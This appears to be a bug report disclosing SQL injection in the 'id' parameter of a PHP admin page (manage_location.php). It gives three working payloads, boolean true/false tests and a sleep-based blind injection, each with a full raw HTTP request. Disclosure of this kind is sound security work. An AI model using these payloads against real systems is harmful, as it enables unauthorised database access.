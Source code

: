 BUG_Author:garrett

Vulnerability File: /vaccinated/admin/maintenance/manage_location.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 996=996 and 'a'='a

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20996=996%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql1.png)

Payload2:id=1' and 996=996 and 'a'='b

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20996=996%20and%20%27a%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 1 from (select(sleep(20)))c) AND 'd'='d

```
GET /vaccinated/admin/maintenance/manage_location.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))c)%20AND%20%27d%27=%27d HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=s2tgt6ls6vslcot7kuqgp70v0r
Connection: close
```

The server response time is 20 seconds

![image](https://github.com/ZERO-XX-ONE/bug_report/blob/main/sql3.png)
